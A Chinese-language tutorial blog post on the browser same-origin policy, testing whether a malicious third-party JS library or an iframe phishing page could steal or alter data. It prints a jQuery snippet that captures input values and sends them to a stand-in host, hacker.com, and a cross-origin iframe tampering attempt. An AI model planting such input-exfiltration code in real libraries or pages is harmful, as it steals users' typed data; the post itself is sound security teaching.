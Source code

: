 ```yaml
---
title: 同源策略
---
```


<p class="lead">
	本文讨论浏览器上的同源策略，分析同源策略已解决的问题，以及目前还存在什么问题。
</p>

首先，我们先不看什么是同源策略，先来想一些可能的web安全方面的隐患：

* <a name="s1">**情景1：**</a>假如我写了一个通用的js库，被很多开发者引用，但他们不知道我在里面偷偷加了一些恶意代码：getInputValAndSendToDB()。这个方法的主要功能是监听用户的键盘输入，并将输入的值通过ajax或JSONP等形式发送到我的服务器并存储到数据库中。

代码看起来可能像这样：
{% highlight js %}
var other = (function () {
    var getInputValAndSendToDB = function() {
        $('#text').on('change', function () {
            var val = $(this).val();
            send(val);
        });
    }
    var send = function (data) {
        $.get('http://www.hacker.com/?data=' + data, function (data) {
            console.log('来自第三方JS库的消息:');
            console.log(data);
        });
    };
    $(function () {
        getInputValAndSendToDB();
    });
})();
{% endhighlight %}

* **情景2：**再假如我写了一个html页面，里面只有个iframe元素，src属性设置为某个银行主页的地址。我还申请了一个和该银行主页类似的域名，最后将页面部署到Internet上。当有人打开这个页面，他们看到的内容和真正打开银行主页所看到的内容没有任何差别，但他们不知道其实我还在页面中加入了一段js代码，例如上面的getInputValAndSendToDB方法，监听银行主页的用户名input以及密码input，或者将银行页面中的某个链接的href属性改成其它钓鱼网站的地址，诱使用户在钓鱼网站上输入他们的用户名、密码、银行卡号等信息。

好，现在我们有了两个情景，那这两种情景是否有可能在浏览器中发生呢？接下来我们通过实验的方式来验证一下。

**情景1实验方案：**

* 环境：使用nodejs启动两个服务，我这里分别监听了8110(开发者)和8111(第三方JS库提供者)端口
* 开发者: 引用第三方提供的JS库: other.js。页面中放置一个input标签
* 第三方: 提供other.js，并在other.js中写入[情景1](#s1)中提到的恶意代码
* 实验过程: 在开发者页面的input中输入值，看是否会被发送到第三方服务器

**情景1实验过程：**

1. 开发者页面输入值, input的change事件被触发，向第三方服务器发送ajax请求: 
![Small example image](https://yangfan44777.github.io/blog/1.png "Small example image")

2.查看浏览器控制台：
![Large example image](https://yangfan44777.github.io/blog/2.png "Large example image")
从控制台我们看到发送用户输入的ajax请求所返回的数据被拒绝接收了，原因是发送请求的js的源与被请求地址的源不同。那么第三方服务器是否都到了请求呢？我在第三方服务器的终端输出了请求参数, 发现可以收到。

从错误信息中还能看到，被拒绝接收的原因是返回的header中没有设置Access-Control-Allow-Origin的值。接下来我在第三方服务器返回的header中加入了Access-Control-Allow-Origin:*，开发者端再次发送请求，此时浏览器控制台不再报错了，正确接受了第三方数据。
![Large example image](https://yangfan44777.github.io/blog/3.png "Large example image")

通过第一个实验，可以看出，不管第三方返回的header中是否设置了Access-Control-Allow-Origin，第三方服务器都可以接收到不同域发来的请求。

**情景2实验方案：**

* 环境：使用nodejs启动两个服务，我这里分别监听了8110(开发者)和8111(银行主页)端口
* 开发者页面: 两个iframe，分别加载银行主页和自己域名下的页面，并通过js修改两个iframe中的a标签href属性
* 实验过程: 查看两个iframe中的内容是否被修改成功

**情景2实验过程：**

1. 开发者页面嵌入两个iframe，如下:
<img src="https://yangfan44777.github.io/blog/4.png" width="50%"/>

2. 开发者页面写入js的代码，加入了try来捕获异常，如下:
{% highlight js %}

$(function () {
    setTimeout(function () {
		try{
			/* 选取非同源iframe中的a标签 */
		    var target_a = $("#iframe")
		    	.contents()
		    	.find("#target_a");
		    /* 修改非同源iframe中的内容 */
		    target_a.attr("href", "#new");
		} catch (e) {
    		console.log('修改非同源页面内容报错:', e);
		}
		/* 选取同源iframe中的a标签 */
	    var target_a_self = $("#iframe_self")
	    	.contents()
	    	.find("#target_a");
	    /* 修改同源iframe中的内容 */
	    target_a_self.attr("href", "#new");
	},1000);
});

{% endhighlight %}

3. 查看浏览器控制台:
![Large example image](https://yangfan44777.github.io/blog/5.png "Large example image")
从控制台我们看到，在获取银行页面的a标签时，抛出了DOMException。而同源下的a标签href属性被修改成功。

通过第二个实验，发现非同源的页面是无法通过js相互读取和修改的。

